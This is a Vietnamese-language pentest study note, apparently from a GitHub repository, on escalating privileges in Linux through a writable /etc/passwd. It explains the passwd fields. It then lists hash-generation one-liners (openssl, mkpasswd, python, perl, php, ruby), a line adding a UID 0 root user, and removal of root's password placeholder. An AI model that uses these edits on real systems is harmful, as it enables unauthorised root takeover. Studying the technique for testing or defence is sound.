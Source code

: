# Editing /etc/passwd File for Privilege Escalation

# Tổng quan 
Thư mục /etc có 3 file quan trọng:
- etc/passwd: có thể đọc, lưu trữ thông tin tài khoản người dùng.
- ect/group: có thể đọc, lưu trữ thông tin người dùng thuộc nhóm nào.
- etc/shadow: thông tin mật khẩu được mã hóa, thời hạn, policy của mật khẩu.

![image](https://github.com/user-attachments/assets/5c842330-5249-4616-ab13-86b3472becca)

![image](https://github.com/user-attachments/assets/488d6116-3449-460b-aef6-b635fddde985)

**Username**: Tên của người dùng được sử dụng để đăng nhập.

**Encrypted password**: X biểu thị mật khẩu được mã hóa thực sự được lưu trữ bên trong tệp /shadow. Nếu người dùng không có mật khẩu thì trường mật khẩu sẽ có dấu *.

**User Id (UID)**: Mỗi người dùng phải được cấp một ID người dùng (UID). UID 0 (không) được giữ cho người dùng root và UID 1-99 được giữ cho các tài khoản được xác định trước, UID 100-999 được hệ thống lưu giữ cho mục đích quản trị. UID 1000 hầu như luôn là người dùng phi hệ thống đầu tiên, thường là quản trị viên. Nếu chúng tôi tạo một người dùng mới trên hệ thống Ubuntu của mình, người dùng đó sẽ được cấp UID là 1001.

**Group Id (GID)**: Nó biểu thị nhóm của từng người dùng; Giống như UID, 100 GID đầu tiên thường được giữ lại để sử dụng cho hệ thống. GID bằng 0 liên quan đến nhóm gốc và GID bằng 1000 thường biểu thị người dùng. Các nhóm mới thường được phân bổ GID bắt đầu từ 1000.

**Gecos Field**: Thông thường, đây là tập hợp các giá trị được phân tách bằng dấu phẩy cho biết thêm chi tiết liên quan đến người dùng. Định dạng cho trường GECOS biểu thị các thông tin sau:

Tên đầy đủ của người dùng

Số nhà và phòng hoặc người liên hệ

Số điện thoại văn phòng

**Shell**: Nó biểu thị đường dẫn đầy đủ của shell mặc định thực thi lệnh (bởi người dùng) và hiển thị kết quả.

LƯU Ý: Mỗi trường được phân tách bằng (dấu hai chấm)

# Các kiểu edit
### Điều kiện tiên quyết: có quyền write file /etc/passwd
### Các cách edit
- openssl: `openssl passwd 123` ---> xxxxx
  
      user:xxxxx:0:0:root:/root:/bin/bash
- mkpasswd -m <method> <password>

      mkpasswd -m SHA-512 pass123
- python
  
      python3 -c 'import crypt; print (crypt.crypt("pass123", "$6$salt"))'
- perl

      perl -le 'print crypt("pass123", "abc")'
- php

      php -r "print(crypt('aarti','123') . \"\n\");"
- ruby

      ruby -r 'digest' -e 'puts "pass".crypt("$6$salt")'
- Đặc biệt có thể xóa kí tự x hoặc * của root trong file /etc/passwd

  ![image](https://github.com/user-attachments/assets/09a81c5d-1546-4874-9576-e60c552f5b7b)

  ![image](https://github.com/user-attachments/assets/49abd8a3-ad06-4824-ae72-f3041502d4f0)


